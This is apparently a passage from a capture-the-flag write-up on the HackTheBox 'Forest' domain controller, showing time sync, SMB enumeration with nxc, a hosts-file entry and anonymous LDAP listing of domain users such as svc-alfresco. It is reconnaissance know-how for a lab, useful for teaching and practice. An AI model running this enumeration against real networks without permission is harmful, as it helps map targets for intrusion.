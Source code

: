 ```bash
sudo ntpdate  10.129.33.34                              
2025-10-20 16:26:21.402615 (-0400) +413.150290 +/- 0.008549 10.129.33.34 s1 no-leap
CLOCK: time stepped by 413.150290
```

Network-level enumeration was conducted using the `nxc smb 10.129.33.34` command. This confirmed the target's hostname as FOREST, its role as a Windows Server 2016 Build 14393 Domain Controller for the `htb.local` domain, and that SMB signing was required but SMBv1 was enabled.

```bash
nxc smb 10.129.33.34  
SMB         10.129.33.34    445    FOREST           [*] Windows 10 / Server 2016 Build 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True) 
```

Hostname resolution was configured by adding the entry `10.129.33.34 forest.htb.local htb.local` to the local `/etc/hosts` file. This ensured proper DNS resolution for the target domain during the assessment.

```bash
 cat  /etc/hosts 
 10.129.33.34  FOREST  forest.htb.local htb.local
```

A critical finding was made using the command `nxc ldap 10.129.33.34 -u '' -p '' --users --kdc forest.htb.local`. This successfully performed anonymous LDAP binding and enumerated all domain users, including the service account `svc-alfresco`, without requiring authentication.
```bash
nxc ldap 10.129.33.34  -u '' -p ''  --users --kdc forest.htb.local
```


```output
LDAP        10.129.33.34    389    FOREST           Administrator                 2021-08-30 20:51:58 0        Built-in account for administering the computer/domain      
LDAP        10.129.33.34    389    FOREST           Guest                         <never>             0        Built-in account for guest access to the computer/domain    
LDAP        10.129.33.34    389    FOREST           DefaultAccount                <never>             0        A user account managed by the system.                       
LDAP        10.129.33.34    389    FOREST           krbtgt                        2019-09-18 06:53:23 0        Key Distribution Center Service Account                     
LDAP        10.129.33.34    389    FOREST           $331000-VK4ADACQNUCA          <never>             0                                                                    
LDAP        10.129.33.34    389    FOREST           SM_2c8eef0a09b545acb          <never>             0                                                                    
LDAP        10.129.33.34    389    FOREST           SM_ca8c2ed5bdab4dc9b          <never>             0                                                                    
LDAP        10.129.33.34    389    FOREST           SM_75a538d3025e4db9a          <never>             0                                                                    
LDAP        10.129.33.34    389    FOREST           SM_681f53d4942840e18          <never>             0                                                                    
LDAP        10.129.33.34    389    FOREST           SM_1b41c9286325456bb          <never>             0                                                                    
LDAP        10.129.33.34    389    FOREST           SM_9b69f1b9d2cc45549          <never>             0                                                                    
LDAP        10.129.33.34    389    FOREST           SM_7c96b981967141ebb          <never>             0                                                                    
LDAP        10.129.33.34    389    FOREST           SM_c75ee099d0a64c91b          <never>             0                                                                    
LDAP        10.129.33.34    389    FOREST           SM_1ffab36a2f5f479cb          <never>             0                                                                    
LDAP        10.129.33.34    389    FOREST           HealthMailboxc3d7722          2019-09-23 18:51:31 0                                                                    
LDAP        10.129.33.34    389    FOREST           HealthMailboxfc9daad          2019-09-23 18:51:35 0                                                                    
LDAP        10.129.33.34    389    FOREST           HealthMailboxc0a90c9          2019-09-19 07:56:35 0                                                                    
```